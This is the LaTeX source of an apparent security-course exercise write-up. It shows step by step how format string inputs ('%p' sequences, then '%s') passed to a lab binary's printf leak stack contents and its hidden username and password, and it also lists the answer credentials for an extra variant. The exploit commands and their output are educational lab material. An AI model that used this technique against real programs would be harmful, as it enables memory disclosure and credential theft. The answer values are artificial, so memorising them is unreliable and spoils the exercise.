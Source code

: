 \documentclass[12pt]{scrartcl}
\newcounter{exnum}
\newcommand{\exercise}[1]{\section*{Problem \theexnum\stepcounter{exnum}: #1}}
\begin{document}
\setcounter{exnum}{1}
\exercise{Reading Data with Format Strings}

\begin{enumerate}
  \item Find out the frame structure of the program:
        First, the program was called with \\\texttt{./fstr-read-2 "\%s" x}
        This printed: \textit{Username or password invalid. Username: root}.
        Hence, the internal stack pointer of \texttt{printf(user)} points to \texttt{validuser}.
        This is probably some artifact of the \texttt{stcmp} functions in the \texttt{if}-block.
  \item With \texttt{./fstr-read-2 "\%p" x} the address of the \texttt{validuser} string
        within the text section can be located: \textit{Username or password invalid. Username: 0x804861a}.
  \item Now a sequence of \texttt{\%p}'s was used to locate the calling frame of the \texttt{try\_login} function.
        For this the local variables, padding bytes, old frame pointer, return address and the (other) arguments
        need to be skipped. To locate the wanted arguments (\texttt{validuser} and \texttt{validpass})
        in this sequence, we used the information about the address of \texttt{validuser} from above:
        \texttt{./fstr-read-2 "\%p \%p \%p \%p \%p \%p \%p \%p \%p \%p \%p" x} prints
        \textit{Username or password invalid. Username: 0x804861c (nil) (nil) (nil) (nil) 0xbffff808 0x80484e2 0xbffff9c3 0xbffff9e4 0x804861c 0x8048613}.
        Obviously, the last two pointers point to the arguments in question.
  \item Lastly, replace these arguments with \texttt{\%s}'s: (\texttt{./fstr-read-2 "\%p \%p \%p \%p \%p \%p \%p \%p \%p \%s \%s" x})
        and get \textit{Username or password invalid. Username: 0x804861a (nil) (nil) (nil) (nil) 0xbffff828 0x80484e2 0xbffff9cf 0xbffff9f0 root passwd}
\end{enumerate}

Using this string for \texttt{fstr-read-2-extra} prints the valid username / password: \textit{smb / wannacry}.
\end{document}
